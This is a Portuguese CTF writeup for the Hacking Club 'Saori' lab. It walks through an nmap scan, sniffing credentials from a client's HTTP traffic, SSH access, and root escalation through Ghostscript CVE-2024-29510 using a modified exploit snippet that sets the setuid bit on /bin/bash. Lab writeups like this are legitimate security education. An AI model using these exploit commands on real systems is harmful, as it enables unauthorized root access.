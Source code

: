 ```yaml
---
title: 'Saori Writeup'
date: '2024-07-27'
tags: ['CVE-2024-29510', 'Linux']
draft: false
summary: 'Writeup do CTF Saori da Hacking Club.'
images: ['/static/images/saori-writeup-images/1.png']
authors: ['default']
---
```


![Saori 1](/static/images/saori-writeup-images/1.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: Saori

### IP: 172.16.4.216

---

### Port Scanning

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 da:cf:66:16:98:0d:7c:69:17:3a:09:dc:a1:c1:1e:cd (ECDSA)
|_  256 0c:31:6e:b6:4a:88:39:35:72:02:1b:6b:fa:df:44:91 (ED25519)
80/tcp open  http    Apache httpd 2.4.58
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Blog
|_http-server-header: Apache/2.4.58 (Ubuntu)
Service Info: Host: ip-172-16-4-216.ec2.internal; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Somente as portas 22 (SSH) e 80 (HTTP) estão abertas.

## Enumeration

`sudo vim /etc/hosts`
![Saori 2](/static/images/saori-writeup-images/2.png)

![Saori 3](/static/images/saori-writeup-images/3.png)

Depois de baixar o client, a gente executa ele e captura o trafego com o wireshark.

`chmod +x client`
`./client`

Quando executamos ele baixa um arquivo chamado `game.sfc`
![Saori 4](/static/images/saori-writeup-images/4.png)

Interceptei o download do game.sfc com wireshark:
![Saori 5](/static/images/saori-writeup-images/5.png)

![Saori 6](/static/images/saori-writeup-images/6.png)
Achamos as credenciais do user abner no campo authorization do HTTP capturado pelo wireshark.
Credentials: `abner:m0V55O1qm78MyEluU`

## Foot Hold

`ssh abner@172.16.4.216`
![Saori 7](/static/images/saori-writeup-images/7.png)

---

## Privillege Escalation

`sudo -l`
![Saori 8](/static/images/saori-writeup-images/8.png)

Essa versão do gs tem uma CVE:
`gs --version`
![Saori 9](/static/images/saori-writeup-images/9.png)

[https://codeanlabs.com/blog/research/cve-2024-29510-ghostscript-format-string-exploitation/](https://codeanlabs.com/blog/research/cve-2024-29510-ghostscript-format-string-exploitation/)
A CVE original executa a calculadora do gnome , basta alterar pro comando que a gente quiser.

```python
% And now `path_control_active` == 0, so we can use %pipe%

(%pipe%chmod u+s /bin/bash) (r) file

quit
```

`sudo /usr/local/bin/gs -q -dNODISPLAY -dBATCH -dSAFER /root/../tmp/exploit.eps`
![Saori 10](/static/images/saori-writeup-images/10.png)

`bash -p`
![Saori 11](/static/images/saori-writeup-images/11.png)

---

## Proof

![Saori 12](/static/images/saori-writeup-images/12.png)
